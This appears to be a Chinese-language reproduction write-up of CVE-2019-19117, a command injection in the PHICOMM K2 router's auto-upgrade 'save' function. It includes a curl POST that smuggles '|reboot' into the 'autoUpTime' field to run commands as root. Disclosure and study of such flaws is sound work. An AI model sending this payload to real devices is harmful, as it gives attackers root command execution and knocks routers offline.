 ```yaml
---
title: "（CVE-2019-19117）PHICOMM 远程代码执行"
id: zhfly3395
---
```


# （CVE-2019-19117）PHICOMM 远程代码执行

## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx' 
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。

![image](../img/cbff0b1782fed475a58bbddc9946eefd.png)

我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。

![image](../img/170b838385357ddab0218a8bcf30d126.png)

然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。